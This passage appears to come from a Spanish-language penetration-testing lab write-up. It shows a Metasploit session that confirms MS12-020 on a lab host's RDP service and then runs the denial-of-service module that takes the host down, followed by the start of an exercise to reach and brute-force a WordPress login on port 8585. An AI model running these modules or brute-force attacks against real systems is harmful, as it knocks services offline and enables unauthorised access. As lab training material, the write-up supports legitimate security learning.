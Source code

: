 ```
RHOSTS => 192.168.109.174
msf6 auxiliary(scanner/rdp/ms12_020_check) > run

[+] 192.168.109.174:3389  - 192.168.109.174:3389 - The target is vulnerable.
[*] 192.168.109.174:3389  - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/rdp/ms12_020_check) > back
msf6 > use 1
msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > show options

Module options (auxiliary/dos/windows/rdp/ms12_020_maxchannelids):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   3389             yes       The target port (TCP)

msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > set RHOSTS 192.168.109.174
RHOSTS => 192.168.109.174
msf6 auxiliary(dos/windows/rdp/ms12_020_maxchannelids) > run
[*] Running module against 192.168.109.174

[*] 192.168.109.174:3389 - 192.168.109.174:3389 - Sending MS12-020 Microsoft Remote Desktop Use-After-Free DoS
[*] 192.168.109.174:3389 - 192.168.109.174:3389 - 210 bytes sent
[*] 192.168.109.174:3389 - 192.168.109.174:3389 - Checking RDP status...
[+] 192.168.109.174:3389 - 192.168.109.174:3389 seems down
[*] Auxiliary module execution completed
```

![image](https://user-images.githubusercontent.com/50930193/173705778-3e54a43d-5613-4906-8e40-a2a5bd01c129.png)

![image](https://user-images.githubusercontent.com/50930193/173705653-ced0f1cc-fb9c-41c0-99d9-fec86da193f9.png)

### Pregunta 2: Explote el servicio del puerto 8585, el objetivo es ingresar al wordpress en entorno web


Desde la página de inicio http://192.168.109.174:8585, si hace clic en el enlace de wordpress debajo de Sus proyectos , 
verá el sitio web de WordPress ejecutándose en el servidor de destino y se redirigirá a este enlace http://192.168.109.174:8585/wordpress/

![image](https://user-images.githubusercontent.com/50930193/173706325-c9756505-fb91-4500-b66b-9c99a97c9209.png)

A su vez, el enlace a la página de inicio de sesión lo llevará a /wordpress/wp-login.php

![image](https://user-images.githubusercontent.com/50930193/173706432-02f369ce-5fde-4042-bec7-9c0f6d0756db.png)

Ahora vamos a tratar de conseguir por fueza bruta las credenciales
